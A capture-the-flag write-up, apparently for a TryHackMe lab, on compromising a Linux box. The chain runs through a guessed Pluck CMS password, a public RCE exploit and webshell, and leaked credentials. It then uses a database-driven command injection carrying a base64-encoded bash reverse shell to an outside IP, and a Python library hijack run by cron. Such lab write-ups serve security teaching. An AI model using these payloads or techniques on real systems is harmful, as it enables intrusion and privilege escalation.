## TL;DR

In this challenge we first login to the `pluck` service, with the password we guess `password`. Then we exploit known `RCE` to get shell as `www-data`. We move to user `lucien` using password found inside `/opt/test.py`, and then moving to user `death` using `OS Command Injection` based on mysql table manipulation.

We lastly move to user `morpheus` using modification of `/usr/lib/python3.8/shutil.py` and waiting for cronjob to execute script that uses this package.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh and port `80` with apache http server.
```bash
PORT   STATE SERVICE REASON         VERSION                                                                                                      
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 02:9a:da:8a:60:ea:ce:ac:69:11:aa:e9:06:2b:d4:6b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCY83MYnU31KKXmSWoksYs9sr768pKVmH1sy01hnt8CGfy/xegLQ6dEq7MU+c9VlNK3/E1yAqgrotkcASF8YBEAi7Y/TJZtQZjb815kCN6TAofd3qqkI5C1DbepSd7oFIWeZuGAJe/aSOTPBKWiMHVcZtudVYCJIWJvLmT1gLpToXVanarkAyjJqePpDau7c+lDMSljAQJ5MkbGqGtAOUM+BYdt2IV4cLuHEdVMLpM2MsBKzs0YyvgDetRgYhLGpVPvnXca0UdpUjyA/IEOOHqK4HPPdRYJresBCvngz+VV33/GbJvzR1xTL4Y7foCBb3lwy9emj+8viF0VDY5e8TR2kUcPvmIY1UtJOocjeE6j/Rj/pkTCGWgMaef1VcoPYOSkKEar/7MKXZieLpysAt+SfVhuoBC2L0MIWB6KF3sBUEQMKZ/JBNckNMXy4acA/ZIDbqEHHYxRd22rPx6NPOm5YIwW5CvBiGogZI3Dt0HXS9gTUYujlgHNaFExdDTwwqc=
|   256 5a:58:cb:90:98:6b:89:d0:7d:d9:df:82:47:c0:77:d3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBE7KHgzrEIS+LEWVCKFnkF3K2Oo/m4VEj+RtvLwmNSQdBNvA5C3/YjwKt1nVMsBeLciChjtJpjG6i8zblu80KQc=
|   256 62:47:dc:b2:71:ff:e0:5a:c2:55:9d:65:ff:f1:0f:0d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMYsUO0pGksLo5Ukke7mW33TDdL/Frk/1XxJCIHMyoSD
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `dreaming.thm` to my `/etc/hosts`.

### login to pluck and then get RCE using known exploit

I started with fuzzing using `ffuf`, we can find the endpoint `/app`:
```bash
┌──(agonen㉿kali)-[~/thm/Dreaming]
└─$ ffuf -u 'http://dreaming.thm/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/common.txt -fc 403 -v

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://dreaming.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

[Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 173ms]
| URL | http://dreaming.thm/app
| --> | http://dreaming.thm/app/
    * FUZZ: app
```

We can see some login portal after at `http://dreaming.thm/app/pluck-4.7.13/login.php`



I tried the password `password`, and it worked.



The version of this platform is `pluck 4.7.13`, I googled and found this authenticated `RCE` exploit [https://www.exploit-db.com/exploits/49909](https://www.exploit-db.com/exploits/49909).

I used the exploit to upload webshell:
```bash
python exploit.py dreaming.thm 80 password /app/pluck-4.7.13/
```


Now, we can access the path it gives us `http://dreaming.thm:80/app/pluck-4.7.13//files/shell.phar`.



I pasted the penelope payload for reverse shell



### Find the password of lucien inside /opt/test.py

I searched for all files owned by `lucien`:
```bash
www-data@ip-10-66-165-162:/home/lucien$ find / -user lucien 2>/dev/null                                                                          
/opt/test.py                                                                                                                                     
/home/lucien                                                                                                                                     
/home/lucien/.ssh
/home/lucien/.local
/home/lucien/.local/share
/home/lucien/.local/lib
/home/lucien/.local/lib/python3.8
/home/lucien/.local/lib/python3.8/site-packages
/home/lucien/.sudo_as_admin_successful
/home/lucien/.mysql_history
/home/lucien/.bash_history
/home/lucien/.profile
/home/lucien/.bash_logout
/home/lucien/.cache
/home/lucien/.bashrc
/home/lucien/lucien_flag.txt
```

we can see the file `/opt/test.py`.
```py
www-data@ip-10-66-165-162:/home/lucien$ cat /opt/test.py
import requests

#Todo add myself as a user
url = "http://127.0.0.1/app/pluck-4.7.13/login.php"
password = "HeyLucien#@1999!"

data = {
        "cont1":password,
        "bogus":"",
        "submit":"Log+in"
        }

req = requests.post(url,data=data)

if "Password correct." in req.text:
    print("Everything is in proper order. Status Code: " + str(req.status_code))
else:
    print("Something is wrong. Status Code: " + str(req.status_code))
    print("Results:\n" + req.text)
```

Inside this file, we can see the password `HeyLucien#@1999!`, which is the password of lucien. I `su` to `lucien`



and the flag of lucien is:
```bash
lucien@ip-10-66-165-162:~$ cat lucien_flag.txt 
THM{TH3_L1BR4R14N}
```

### OS Command Injection using modify of sql table

I start with `sudo -l`:
```bash
lucien@ip-10-66-165-162:~$ sudo -l
Matching Defaults entries for lucien on ip-10-66-165-162:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lucien may run the following commands on ip-10-66-165-162:
    (death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py
```

Then, I checked the `.bash_history` file. Inside it we can find this line:
```bash
mysql -u lucien -plucien42DBPASSWORD
```

Let's login to the mysql service, with the password we found here. 



I found the db `library`, and inside it the table `dreams` which contains 4 rows:
```bash
mysql> select * from dreams;                                                                                                                                 
+---------+------------------------------------+                                                                                                             
| dreamer | dream                              |                                                                                                             
+---------+------------------------------------+                                                                                                             
| Alice   | Flying in the sky                  |                                                                                                             
| Bob     | Exploring ancient ruins            |                                                                                                             
| Carol   | Becoming a successful entrepreneur |                                                                                                             
| Dave    | Becoming a professional musician   |                                                                                                             
+---------+------------------------------------+                                                                                                             
4 rows in set (0.00 sec)
```

When executing the `sudo -u death /usr/bin/python3 /home/death/getDreams.py`, we can see some interesting output



It fetched the data from the table. I created new user with test for `SSRF` using `{{7*7}}` and test for `OS Commnad Injection` using `;id`
```sql
INSERT INTO dreams (dreamer, dream) VALUES ("Kobi", "{{7*7}};id");
```

After executing, we got `OS Command Injection`:



Now, let's update the table to hold the payload of penelope:
```sql
UPDATE dreams SET dream = ";printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xMzguNTkvNDQ0NCAwPiYxKSAm|base64 -d|bash" WHERE dreamer="Kobi";
```

We got back the reverse shell as `death`:



we can grab the flag:
```bash
death@ip-10-66-165-162:~$ cat death_flag.txt 
THM{1M_TH3R3_4_TH3M}
```

### Move to morpheus using modification of /usr/lib/python3.8/shutil.py

I saw on the home folder of `morpheus` the script `restore.py`.
```py
death@ip-10-66-165-162:/home/morpheus$ cat restore.py 
from shutil import copy2 as backup

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")
```

I guessed it is being executed by some sort of cronjob, I uploaded `pspy64`, and executed it
We can see it does being executed, using cronjob being initiated by root.



I wanted to find the location of the package `shutil`:
```bash
death@ip-10-66-165-162:/home/morpheus$ python3 -c "import shutil; print(shutil.__file__)"
/usr/lib/python3.8/shutil.py
```

Okay, as we can see, the file is in group `death`, and this group has both write and read permission:



I edited the file and add the penelope payload



we got the reverse shell after some time:



and the `morpheus` flag is:
```bash
morpheus@ip-10-66-165-162:~$ cat morpheus_flag.txt 
THM{DR34MS_5H4P3_TH3_W0RLD}
```

BTW, the crontab file can be found here:
```bash
root@ip-10-66-165-162:/var/spool/cron/crontabs# cat morpheus 
# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (/tmp/crontab.kvAaRd/crontab installed on Fri Jul 28 23:58:55 2023)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
# Edit this file to introduce tasks to be run by cron.
# 
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
# 
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').
# 
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
# 
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
# 
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
# 
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command
* * * * * /usr/bin/python3.8 /home/morpheus/restore.py
```